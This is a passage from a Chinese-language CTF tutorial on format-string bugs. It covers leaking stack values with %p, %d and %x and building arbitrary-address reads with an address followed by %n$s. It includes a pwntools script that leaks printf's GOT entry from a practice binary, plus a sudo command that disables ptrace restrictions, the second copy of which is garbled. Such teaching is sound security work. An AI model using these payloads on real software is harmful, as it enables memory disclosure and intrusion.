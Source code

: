使用 %p方法，因为：

1. 不会尝试解引用
2. 我们可以手动将这些值转换为字符串

**%s选择读取的值作为指针这一点还有妙用哦。**

补充说明：如果是数值的话，可以直接利用%d或%x，这两个一个泄露十进制一个泄露16进制。

欧克，通过这案例你已经学会了如何利用格式化字符串去读取栈上的内容了。

接下来我们需要升级挑战，读取任意地址内的信息。

#### 读取任意地址

 可以看出，在上面无论是泄露栈上连续的变量，还是说泄露指定的变量值，我们都没能完全控制我们所要泄露的变量的地址。这样的泄露固然有用，可是却不够强力有效。有时候，我们可能会想要泄露某一个 libc 函数的 got 表内容，从而得到其地址，进而获取 libc 版本以及其他函数的地址，这时候，能够完全控制泄露某个指定地址的内存就显得很重要了。那么我们究竟能不能这样做呢？自然也是可以的啦。 

如上面所写的例题一样，我们格式化字符串的调用其实是函数的局部变量，他的第一个参数就是格式化字符串的地址。这个时候就可以联想到我们上面说的%s的特性：**会把读取的值作为指针去找寻地址**。利用这一点，如果我们可以把栈上面的值填写成一个地址，那么%s就会去把这个地址上面的值打印出来。

那么就只要把输入的位置的偏移量，放在你输入的地址后面，就可以先把输入位置变成你寻找的地址，然后取执行格式化字符串，取读取这个地址。如：`p64(target)+%offset$s` ==`payload`

```c
#基本
targetaddr + %n$s
#反过来
%n$s + targetaddr
```

我们任然可以利用上面的那个例子，继续任意地址读我们只要可以把offset14的位置填写我们想要读取的地址就可以了,写一个exp如下 ：

```python
from pwn import *

binary_path = "/home/feeling/ctf/exam/fmt1/fmt"
e = ELF(binary_path)
context.terminal=["cmd.exe","/c", "start", "cmd.exe", "/c", "wsl.exe", "-e"]
context(log_level='debug', os='linux', arch='amd64')
io = process(binary_path)

printf_got = e.got['printf']
print(f"Printf GOT address: {hex(printf_got)}")

prompt = io.recvuntil(b'5203')

payload = p64(printf_got) + b'%14$s'#核心区域，只要这里可以的偏移指向你的输入位置。
print(payload)
io.sendline(payload)
io.interactive()
```

温馨提示这里要用pwngdb来查看内存情况，所以可能出现一些问题，比如权限问题。

```bash
#权限问题，在终端中填写，修改yama/ptrace_scop，/proc/sys/kernel/yama/ptrace_scope 这个文件对 ptrace 操作进行了限制，默认情况下可能会阻止 GDB 附加到其他进程。
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
0 | sudo tee /proc/sys/kernel/yama/ptrace_scop
```
